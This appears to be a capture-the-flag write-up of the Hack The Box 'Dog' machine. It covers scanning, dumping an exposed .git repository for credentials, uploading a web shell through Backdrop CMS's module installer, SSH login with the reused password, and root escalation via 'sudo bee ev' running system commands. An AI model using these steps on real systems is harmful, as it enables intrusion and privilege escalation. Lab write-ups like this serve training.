 ```yaml
---
title: Dog - Hack The Box
date: 2025-05-13
---
```


![Dog - info card](/ctf/hack-the-box/machines/dog/info-card.png)

# Enumeration and Initial Access

## Network scanning

An initial Nmap scan was conducted to identify open ports and running services:

```bash
nmap -sV -sC -oN nmap/initial.nmap 10.10.10.10
```

Scan Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
```

**Observations:**

- SSH (22/tcp) is running OpenSSH 8.2p1.
- A web server (Apache 2.4.41) is running on port 80 with a robots.txt file disallowing access to several sensitive directories.

## Web enumeration

Navigating to the target IP address (10.10.11.58) reveals a Backdrop CMS-powered website.

![Dog - Backdrop CMS](/ctf/hack-the-box/machines/dog/backdrop-cms.png)

### Directory Bruteforcing – Dirsearch

A directory brute-force was performed using Dirsearch:

```bash
dirsearch -u http://10.10.11.58/ -o dirsearch/initial.txt
```

![Dog - dirsearch](/ctf/hack-the-box/machines/dog/dirsearch.png)

### Git Repository Disclosure

The presence of a `.git` directory was discovered, and its contents were extracted using [git-dumper](https://github.com/arthaud/git-dumper):

```bash
git-dumper http://10.10.11.58/.git ./git-dump/
```

Upon reviewing the extracted repository, a sensitive configuration file `settings.php` was located. It contained database connection credentials:

```php
$database = 'mysql://root:BackDrop...@127.0.0.1/backdrop';
```

Additionally, a user-related email address was identified:

```bash
grep -r "@dog.htb"
# ...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

### CMS Admin Panel Access

Using the credentials `tiffany:BackDropJ2024DS2024`, access was gained to the Backdrop CMS admin panel.

![Dog - Backdrop CMS admin](/ctf/hack-the-box/machines/dog/backdrop-cms-admin.png)

### Exploitation of Backdrop CMS

Backdrop CMS version 1.21.0 was identified, for which a known exploit exists ([Exploit-DB #52021]((https://www.exploit-db.com/exploits/52021))).

![Dog - Backdrop CMS exploit](/ctf/hack-the-box/machines/dog/backdrop-exploit.png)

A web shell was packaged into a `.tar` archive and uploaded via the module installer at: `http://10.10.11.58/?q=admin/installer/manual`.

![Dog - Backdrop CMS upload](/ctf/hack-the-box/machines/dog/backdrop-upload.png)

Once uploaded, the shell was accessible at: `http://10.10.11.58/modules/shell/shell.php`.

![Dog - Backdrop CMS shell](/ctf/hack-the-box/machines/dog/backdrop-shell.png)

### Gaining Shell Access

Reviewing `/etc/passwd` revealed the presence of multiple users, including `johncusack`.

![Dog - Backdrop CMS etc passwd](/ctf/hack-the-box/machines/dog/backdrop-etc-passwd.png)

Reusing the earlier credentials, SSH access was gained:

```bash
ssh johncusack@10.10.11.58
Password: BackDrop...

johncusack@dog:~$ id
uid=1001(johncusack) gid=1001(johncusack) groups=1001(johncusack)
```

The user flag was retrieved from `/home/johncusack/user.txt`.

# Privilege Escalation

Running `sudo -l` revealed that the `johncusack` user could execute `/usr/local/bin/bee` with elevated privileges:

```bash
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

## Abuse of bee Utility

[Bee](https://github.com/backdrop-contrib/bee) is a command-line tool for Backdrop CMS administration. According to the documentation, it supports an `eval` function capable of executing arbitrary PHP code.

![Dog - Bee eval](/ctf/hack-the-box/machines/dog/bee-eval.png)

To escalate privileges, the `eval` option was used to run a system command as root:

```bash
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee ev "system('id')"
uid=0(root) gid=0(root) groups=0(root)
```

The root flag was retrieved from `/root/root.txt`
